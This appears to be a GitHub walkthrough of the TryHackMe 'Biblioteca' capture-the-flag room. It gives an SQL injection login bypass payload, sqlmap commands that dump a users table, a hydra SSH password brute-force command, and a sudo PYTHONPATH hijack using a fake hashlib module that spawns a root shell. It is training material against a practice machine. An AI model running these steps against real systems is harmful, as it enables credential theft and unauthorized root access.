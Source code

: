 # Biblioteca CTF - TryHackMe Room
# **!! SPOILERS !!**
#### This repository documents my walkthrough for the **Biblioteca** CTF challenge on [TryHackMe](https://tryhackme.com/room/biblioteca). 
---


we see open ports 22 and 80

![scn](imgs/scn.png "scn")

running feroxbuster but there is nothing interesting

![fer](imgs/fer.png "fer")

we see a login page, i tried simple SQLi and it worked, we can use this payload `admin' or 1=1 -- -`

![sq](imgs/sq.png "sq")

we see a information `Hi smokey !!` which might be a username, if we create a new account on website called test we see `Hi test !!`

![sm](imgs/sm.png "sm")

![te](imgs/te.png "te")

we can use sqlmap to find that DBMS is MySQL using this command 

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch
```

![db](imgs/db.png "db")

we can also find all databases by using this command (database is: website)

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -dbs
```

![dt](imgs/dt.png "dt")

we can list tables in database website using this command (the table is: users)

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -D website --tables
```

![tb](imgs/tb.png "tb")

to find columns in table users we can use:

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -D website -T users --columns
```

![c](imgs/c.png "c")

to dump whole database we use: 

```
sqlmap -u http://$IP:8000/login --data 'username=admin&password=pass' --batch -D website -T users --dump
```

![dm](imgs/dm.png "dm")

now we see a credentials, and we can try to login to ssh as smokey

it works we have access as smokey, the flag is located in another user folder hazel

![s](imgs/s.png "s")

now the linpeas shows few ideas to escalate by using Polkit or sudo 1.8.31 but they dont seem to work

![cv](imgs/cv.png "cv")

![sd](imgs/sd.png "sd")

the hint for user flag states: `weak password`, so probably the other user has weak password, we can try to use hydra to brute force the login

```
hydra -l hazel -P /usr/share/wordlists/rockyou.txt ssh://10.10.X.X
```

![hd](imgs/hd.png "hd")

it works and now we can login as hazel and we can grab user flag

![hz](imgs/hz.png "hz")

by looking on sudo -l output we see that we can run the /home/hazel/hasher.py as sudo, we can create our own version of hashlib (python script imports hashlib)

![sud](imgs/sud.png "sud")

```
$ cd /tmp 
$ mkdir hashlib
$ cd hashlib 
$ nano hashlib.py
$ sudo PYTHONPATH=/tmp/hashlib /usr/bin/python3 /home/hazel/hasher.py

CONTENT of hashlib.py:
import os
os.system('/bin/bash -p')
```

now we have root access and root flag

![rt](imgs/rt.png "rt")

# MACHINE PWNED
